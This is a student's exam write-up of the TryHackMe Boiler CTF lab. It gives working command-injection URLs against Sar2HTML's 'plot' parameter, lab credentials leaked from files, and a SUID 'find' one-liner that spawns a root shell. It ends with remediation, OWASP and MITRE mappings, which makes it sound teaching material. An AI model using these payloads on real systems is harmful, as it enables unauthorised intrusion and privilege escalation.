

# Final Exam — TryHackMe: Boiler CTF

> **Submission date:** 2025-04-14 · **Final practical exam for CSC-7311**
> **Room:** [TryHackMe — Boiler CTF](https://tryhackme.com/room/boilerctf2)
> **Difficulty:** Medium · **Category:** Enumeration, web exploitation, privilege escalation

## Table of Contents

- [Objective](#objective)
- [Attack Flow](#attack-flow)
- [Methodology](#methodology)
- [Steps 1–11](#step-1--initial-reconnaissance)
- [Attack Path Summary](#attack-path-summary)
- [Tool Summary](#tool-summary)
- [Key Learnings](#key-learnings)
- [Remediation Recommendations](#remediation-recommendations-if-this-were-a-real-engagement)
- [Mapping to OWASP Top 10](#mapping-to-owasp-top-10)
- [Mapping to MITRE ATT&CK](#mapping-to-mitre-attck)

## Attack Flow



## Objective

Gain full system access to the target machine, then collect the **user flag** (from `/home/stoner/.secret`) and the **root flag** (from `/root/root.txt`). The room tests end-to-end enumeration discipline: there are several rabbit holes, an ROT13-encoded hint file, a CMS fingerprint, an obscure third-party component with known RCE, credentials in log files, multi-user lateral movement, and SUID-based privilege escalation.

## Methodology

1. **Reconnaissance** → Nmap full-port service scan
2. **Enumeration** → FTP anonymous access, HTTP directory brute-force, Joomla fingerprinting, Sar2HTML path discovery
3. **Exploitation** → Sar2HTML command injection (`plot=`) → credential leak in log file
4. **Initial foothold** → SSH as `basterd`
5. **Lateral movement** → script-file credential leak → `su stoner`
6. **Privilege escalation** → SUID `/usr/bin/find` via GTFOBins
7. **Flag capture** → user flag + root flag

## Target Information

| Field | Value |
|---|---|
| Target IP | `10.10.106.174` (ephemeral) |
| Platform | TryHackMe VPN (`tun0`) |
| Attacker | Kali Linux VM on VirtualBox |

---

## Step 1 — Initial Reconnaissance

**Tool:** Nmap
**Purpose:** full port discovery with service fingerprinting.

**Command:**
```bash
sudo nmap -sC -sV -p- 10.10.106.174
```

**Flag explanation:**
- `-sC` — run default NSE scripts (banner grabbing, version-specific probes)
- `-sV` — service/version detection
- `-p-` — all 65,535 ports

**Outcome — open ports:**

| Port | Service | Notes |
|---|---|---|
| 21/tcp | FTP (vsFTPd 3.0.3) | **Anonymous login allowed** |
| 80/tcp | HTTP (Apache 2.4.18) | Default page + hidden paths |
| 10000/tcp | Webmin MiniServ 1.930 | Admin interface exposed |
| 55007/tcp | SSH (OpenSSH) | Non-standard port — tells us to look for SSH creds |

**Finding:** multiple attack surfaces. Anonymous FTP is a standing invitation; the non-standard SSH port at 55007 is a flag that the author expects credentials to surface later.

_Evidence: Nmap scan output showing all four services._

---

## Step 2 — FTP Anonymous Login

**Tool:** ftp client
**Purpose:** enumerate files accessible to anonymous users.

**Commands:**
```bash
ftp 10.10.106.174
# Name: anonymous
# Password: (blank)
ls -la
get .info.txt
```

**Outcome:** a hidden file `.info.txt` (74 bytes) was downloaded. The contents were ROT13-encoded:

```
Whfg jnagrq gb frr vs lbh sbhaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

**Decoded:**
```
Just wanted to see if you found it. Lol. Remember: Enumeration is the key!
```

**Finding:** intentional red herring — no actual credentials, but it confirms enumeration is the intended approach. Move on.

_Evidence: FTP session transcript + `.info.txt` contents + decoded ROT13._

---

## Step 3 — HTTP Directory Brute-Force

**Tool:** Gobuster
**Purpose:** discover hidden directories on the web server.

**Command:**
```bash
gobuster dir -u http://10.10.106.174 -w /usr/share/dirb/wordlists/common.txt
```

**Outcome:** discovered `/joomla/` and `/robots.txt`. The `/manual/` directory from Nmap was confirmed.

**Next step — enumerate /joomla:**

```bash
gobuster dir -u http://10.10.106.174/joomla -w /usr/share/dirb/wordlists/common.txt
```

**Outcome:** deeper paths discovered — `/_files`, `/_database`, `/_test`, and the standard Joomla directories (`/administrator/`, `/components/`, `/modules/`, `/templates/`). The most interesting was `/joomla/_test` which served a **Sar2HTML version 3.2.1** page.

_Evidence: Gobuster outputs at both levels._

---

## Step 4 — Joomla Fingerprinting (Secondary Path)

**Tool:** JoomScan (OWASP)
**Purpose:** Joomla-specific vulnerability scan.

**Commands:**
```bash
sudo apt install joomscan
joomscan --url http://10.10.106.174/joomla/
```

**Outcome:**
- **Joomla Version:** 3.9.10
- **Core vulnerability check:** no known core vulnerabilities
- Admin paths, component paths, template paths enumerated
- Status/config files readable in places
- Report saved to `reports/10.10.106.174/`

**Finding:** Joomla itself was up-to-date enough that the attack path was NOT in core Joomla — it was in the Sar2HTML component at `/joomla/_test`.

_Evidence: JoomScan output + report directory._

---

## Step 5 — Sar2HTML 3.2.1 Remote Code Execution

**Vulnerability:** Sar2HTML 3.2.1 has a published RCE via the `plot` parameter — untrusted input is passed directly into a shell command construction.

**Tool:** Web browser (or curl) — the exploit is a single crafted URL.

**Test for injection:**
```
http://10.10.106.174/joomla/_test/index.php?plot=;id
```

The output of `id` appeared on the page (rendered inside the plot dropdown). This confirmed command injection.

**List the directory to find hints:**
```
http://10.10.106.174/joomla/_test/index.php?plot=;ls
http://10.10.106.174/joomla/_test/index.php?plot=;cat log.txt
```

**Outcome:** `log.txt` contained lines like:
```
Aug 20 11:16:35 ... Accepted password for basterd from 10.1.1.1 ...
#pass: superduperp@$$
```

**Credentials discovered:** `basterd` / `superduperp@$$`

**Finding:** a common security anti-pattern — test/debug log files committed to production web roots, containing plaintext credentials.

_Evidence: browser screenshot showing command output + log.txt rendered contents._

---

## Step 6 — SSH Foothold as `basterd`

**Tool:** ssh
**Purpose:** use discovered credentials to establish an interactive shell on the non-standard SSH port.

**Command:**
```bash
ssh basterd@10.10.106.174 -p 55007
# Password: superduperp@$$
```

**Outcome:** successful login as `basterd`. Home directory contained `backup.sh`.

_Evidence: SSH session prompt showing `basterd@boiler`._

---

## Step 7 — Lateral Movement to `stoner` via `backup.sh`

**Tool:** `cat` + `su`
**Purpose:** read script content; switch user.

**Commands:**
```bash
cat backup.sh
```

**Content (excerpt):**
```bash
#!/bin/bash
USER=stoner
# pass: superduperp@$$no1knows
```

The shell script contained a second user's credentials in a comment.

```bash
su stoner
# Password: superduperp@$$no1knows
```

**Outcome:** switched user to `stoner` successfully.

**Finding:** credentials hardcoded in shell scripts (even as comments) are a durable privilege-escalation vector. In production, commit-scanning (gitleaks) would catch this before deployment.

_Evidence: `cat backup.sh` output + successful `su stoner` prompt._

---

## Step 8 — User Flag

**Command:**
```bash
cat /home/stoner/.secret
```

**Output (paraphrased):**
```
You made it till here, well done.
```

**First flag captured.**

_Evidence: `.secret` contents displayed in terminal._

---

## Step 9 — SUID Enumeration for Privilege Escalation

**Tool:** `find`
**Purpose:** locate binaries with the SUID bit set (run as owner regardless of invoker).

**Command:**
```bash
find / -perm -4000 2>/dev/null
```

**Outcome:** standard SUID binaries present (`sudo`, `passwd`, `chsh`, etc.) plus an **unexpected** entry:
```
/usr/bin/find
```

SUID on `find` is a **known escape path** cataloged on GTFOBins.

**Finding:** we can escalate to root via `/usr/bin/find -exec`.

_Evidence: SUID enumeration output with `/usr/bin/find` highlighted._

---

## Step 10 — Root Shell via GTFOBins

**Reference:** [GTFOBins — find](https://gtfobins.github.io/gtfobins/find/#suid)

**Command:**
```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

**Flag explanation:**
- `.` — search current directory
- `-exec /bin/sh -p \;` — for each matching file, run `/bin/sh -p` (the `-p` flag preserves privileges — this is the critical flag that keeps the SUID-granted privileges when spawning the shell)
- `-quit` — stop after the first match (we only need one shell)

**Outcome:** spawned `/bin/sh` running as `root`.

```
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner)
```

**Finding:** euid=0 — effective root. Full system control.

_Evidence: `id` output showing `euid=0(root)`._

---

## Step 11 — Root Flag

**Command:**
```bash
cat /root/root.txt
```

**Output (paraphrased):**
```
It wasn't that hard, was it?
```

**Second flag captured. Room complete.**

_Evidence: `/root/root.txt` contents + TryHackMe room completion screen._

---

## Attack Path Summary

```
 Nmap discovers 4 ports
    │
    ├─ 21/tcp FTP (anon) ──────► .info.txt (ROT13) ── red herring, but confirms enum discipline
    │
    ├─ 80/tcp HTTP ─► Gobuster ──► /joomla/ ──► Gobuster ──► /joomla/_test ──► Sar2HTML 3.2.1
    │                                                                                │
    │                                                                                ▼
    │                                                                   RCE via plot= parameter
    │                                                                                │
    │                                                                                ▼
    │                                                                       cat log.txt
    │                                                                                │
    │                                                                                ▼
    │                                                             Creds: basterd / superduperp@$$
    │
    └─ 55007/tcp SSH ─► basterd login ──► cat backup.sh ──► Creds: stoner / superduperp@$$no1knows
                                                                     │
                                                                     ▼
                                                               su stoner ─► .secret (user flag)
                                                                     │
                                                                     ▼
                                                          find SUID binaries ─► /usr/bin/find
                                                                     │
                                                                     ▼
                                                        find . -exec /bin/sh -p \;  (root)
                                                                     │
                                                                     ▼
                                                           cat /root/root.txt (root flag)
```

---

## Tool Summary

| Tool | Purpose |
|---|---|
| **Nmap** | Port/service discovery — identified all four target services |
| **ftp** | Anonymous FTP login + file retrieval |
| **Gobuster** | HTTP directory brute-force — found `/joomla/` and `/joomla/_test/` |
| **JoomScan** | Joomla-specific vulnerability fingerprinting |
| **Web browser / curl** | Triggered Sar2HTML RCE via crafted URL |
| **ssh** | Initial foothold as `basterd` |
| **su** | Lateral movement from `basterd` → `stoner` |
| **find** | SUID enumeration AND privilege escalation vector |
| **GTFOBins** | Reference catalog for SUID escape patterns |

---

## Key Learnings

> [!NOTE]
> The Boiler CTF tested every phase of the pentest lifecycle and rewarded methodical enumeration over guessing.

1. **Enumeration pays — always run the slow scan.** A partial port scan would have missed SSH on 55007. Full-port (`-p-`) is non-negotiable in CTFs and should be the default in pentests.
2. **ROT13 is a fingerprint, not a cipher.** Any encoded blob in a CTF is worth trying ROT13, base64, URL-decode, and hex first. Recognizing encoding schemes is a core analyst skill.
3. **Secondary tools reveal what primary tools miss.** JoomScan found nothing exploitable in Joomla core — the vulnerability was in a bolt-on component that Gobuster surfaced. Always enumerate subdirectories independently.
4. **Log files leak credentials.** `log.txt` with "#pass:" comments is a real-world pattern — treat any writable test artifact as a potential leak. This is what SIEM-based credential monitoring catches.
5. **Scripts comment-leak secrets.** `backup.sh` hardcoded a user credential — this is what `gitleaks` and `trufflehog` catch in source control. Code review must include shell scripts and config files.
6. **SUID bits on unexpected binaries = instant red flag.** `/usr/bin/find` with SUID is a textbook GTFOBins escalation path; any SUID binary outside a vetted list deserves scrutiny. Automate SUID auditing.
7. **The -p flag matters.** Without `-p` on `/bin/sh`, the kernel would drop the SUID privileges before spawning the shell. Small detail, huge consequence.

---

## Mapping to OWASP Top 10

| Step | OWASP category |
|---|---|
| Anonymous FTP enabled | **A05 Security Misconfiguration** |
| Sar2HTML 3.2.1 RCE | **A06 Vulnerable & Outdated Components** + **A03 Injection** |
| Credentials in log.txt | **A02 Cryptographic Failures** (clear-text secrets) |
| Credentials in backup.sh | **A02 Cryptographic Failures** + **A08 Software Integrity** |
| SSH on non-standard port | Not security-through-obscurity — just unusual (informative, not vulnerable) |

## Mapping to MITRE ATT&CK

| Step | Tactic → Technique |
|---|---|
| Nmap scan | Reconnaissance → [T1595.001 Scanning IP Blocks](https://attack.mitre.org/techniques/T1595/001/) |
| FTP anonymous | Initial Access → [T1078.003 Local Accounts](https://attack.mitre.org/techniques/T1078/003/) |
| Sar2HTML RCE | Initial Access / Execution → [T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |
| SSH login | Lateral Movement → [T1021.004 SSH](https://attack.mitre.org/techniques/T1021/004/) |
| su stoner | Privilege Escalation → [T1548.003 Sudo/Su](https://attack.mitre.org/techniques/T1548/003/) |
| SUID find | Privilege Escalation → [T1548.001 Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/) |
| Credential discovery | Credential Access → [T1552.001 Credentials in Files](https://attack.mitre.org/techniques/T1552/001/) |

---

## Remediation Recommendations (if this were a real engagement)

> [!CAUTION]
> This system had **multiple independent paths to root compromise**. Even fixing one vulnerability would not prevent exploitation via the others.

| # | Finding | Severity | CVSS 3.1 | Recommendation |
|---|---|---|---|---|
| 1 | Anonymous FTP enabled with file disclosure | **Medium** | 5.3 | Disable anonymous FTP or remove the FTP service entirely. Prefer SFTP with key authentication. |
| 2 | Sar2HTML 3.2.1 RCE via `plot=` parameter | **Critical** | 9.8 | Patch or remove Sar2HTML immediately. Version 3.2.1 has a known RCE — no authentication required. |
| 3 | Credentials in `log.txt` on web root | **Critical** | 9.1 | Remove all log files from `DocumentRoot`. Implement log rotation to non-web-accessible paths. |
| 4 | Credentials hardcoded in `backup.sh` | **High** | 7.5 | Scan code for embedded credentials (gitleaks, trufflehog) in every CI run. Use credential vaults. |
| 5 | SUID bit on `/usr/bin/find` | **Critical** | 8.8 | Audit SUID binaries regularly. `/usr/bin/find` should never have SUID in production. |
| 6 | Webmin on port 10000 publicly exposed | **High** | 7.2 | Bind Webmin to management VLAN or VPN only. Never expose admin interfaces to untrusted networks. |
| 7 | SSH on non-standard port (security through obscurity) | **Low** | 2.0 | Non-standard ports do not provide security. Implement key-only SSH auth and fail2ban. |
| 8 | No file integrity monitoring | **Medium** | 5.0 | Deploy tripwire/AIDE/auditd to detect SUID bit changes and unauthorized file modifications. |

---

_Walkthrough back-reference:_ [Course README](../README.md) · [Midterm: Pickle Rick](midterm-pickle-rick.md) · [Week 12: Mr. Robot CTF](mr-robot-ctf.md)
